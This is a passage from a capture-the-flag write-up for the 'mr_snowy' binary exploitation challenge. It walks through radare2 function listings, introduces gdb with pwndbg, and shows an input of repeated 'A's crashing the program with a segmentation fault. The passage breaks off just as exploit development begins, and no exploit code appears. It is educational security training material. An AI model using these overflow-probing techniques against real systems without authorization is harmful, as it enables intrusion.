 ```bash
0x00401374    5 246          sym.investigate
0x004008f0    1 6            sym.imp.read
0x00400970    1 6            sym.imp.atoi
0x00401560    4 101          sym.__libc_csu_init
0x00400ab7    1 24           sym.reset
0x004008d0    1 6            sym.imp.printf
0x00400a00    1 2            sym._dl_relocate_static_pie
0x0040146a    3 135          sym.snowman
0x0040153e    1 26           main
0x004014f1    1 77           sym.setup
...[trim]...
```

Note that this more clearly displays where each function is in memory. If we wanted to seek to the `sym.deactivate_camera` function, we can run `s sym.deactivate_camera`, followed by a `pdf` again (or run `pdf @ sym.deactivate_camera`).  I'll skip the output for brevity's sake.

The last command that may be useful is running `izz`, which is like running `strings` on the binary, but just a little bit smarter. Now that we know what we're looking at, let's look at gdb and developing the exploit with pwntools.

## Exploit Development
### gdb
[GDB](https://www.sourceware.org/gdb/), or the GNU Debugger, is a debugger for Unix-like operating systems that supports a variety of languages; it's basically what we'll use instead of Immunity Debugger or Windbg. For pwn challenges, I also like using an additional plugin known as [pwndbg](https://github.com/pwndbg/pwndbg), which simplifies some of syntax and makes it easier to look at. We can start the program with `r`, to run it. If we wanted to redirect input into the program, we can do `r < INPUT`, like how it normally works in Linux.

I'll start by trying to spike the program at both inputs, and find that only the second user input is susceptible to overflow.

```bash
pwndbg> r
Starting program: /home/kali/ctf/santa_htb/day1/pwn_mr_snowy/mr_snowy 


[Location]: 🎅 Santa's garden..

   _____    *  *  *  *  *     *  *
   |   |        *   *    *   * ** 
  _|___|_     *  *  *   *  **  *
  ( 0 0 )   *   *  *   * *   * *   *
 (   *   )    *   *    *    *   * *
(    *    )      *  *   *  *   *  *
 \_______/    *   *   *  ***   **


[*] This snowman looks sus..

1. Investigate 🔎
2. Let it be   ⛄
> 1

[!] After some investigation, you found a secret camera inside the snowman!

1. Deactivate ⚠️
2. Break it   🔨
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

[-] Mission failed!

Program received signal SIGSEGV, Segmentation fault.
```